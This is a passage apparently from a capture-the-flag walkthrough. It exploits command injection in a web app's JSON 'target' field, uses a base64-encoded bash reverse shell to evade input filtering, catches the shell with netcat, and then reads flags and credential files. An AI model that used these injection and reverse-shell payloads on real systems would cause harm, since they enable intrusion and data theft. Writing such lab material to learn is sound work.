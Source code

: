 So I tried this out with "ls -la":

<pre>{"target":"\";ls -la\n"}</pre>

![burp rce test](https://imgur.com/kLyVDHt.png)

As you can see above, it works. We see the file **search.php** in the web directory.

Set up netcat to listen on port 444:

<pre> nc -nvlp 4444</pre>

Let's replace ls -la with our reverse shell line.

<pre>{"target":"\";bash -i >& /dev/tcp/10.9.6.63/4444 0>&1\n"}</pre>

![invalid char](https://imgur.com/ifulJoy.png)

Invalid character...

We should try to convert this one-liner to base64 and decrypt it when we send the request to bypass the sanitisation. 

<pre>┌─[user@parrot]─[~]
└──╼ $echo "bash -i >& /dev/tcp/10.9.6.63/4444 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjYuNjMvNDQ0NCAwPiYxCg==</pre>

Now let's do the same as before, but replace the reverse shell line with our base64 value:

<pre>{"target":"\";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjYuNjMvNDQ0NCAwPiYxCg== | base64 -d | bash \n"}</pre>

Executing this with Burp Suite successfully gives us a connection with netcat. 

![netcat](https://imgur.com/DNg5Svu.png)

You can find the web flag in the web directory for www.

<pre>cd ~
cat web-flag.txt</pre>

I wanted to have a look at those files we saw from the search engine.

<pre>cd /var/www/files</pre>

The 3 files:

![3 files](https://imgur.com/6UWIs3J.png)

2 of them were empty, but I found something in this file:

**creds2.txt**

<pre>LF5GGMCNPJIXQWLKJEZFURCJGVMVOUJQJVLVE2CONVHGUTTKNBWVUV2WNNNFOSTLJVKFS6CNKRAX
UTT2MMZE4VCVGFMXUSLYLJCGGM22KRHGUTLNIZUE26S2NMFE6R2NGBHEIY32JVBUCZ2MKFXT2CQ=</pre>

I feel as if this may be a rabbit hole as I am struggling to decrypt this.

I'll try and use linpeas to gather some more information.

<pre>wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
ifconfig
python -m SimpleHTTPServer 8888</pre>
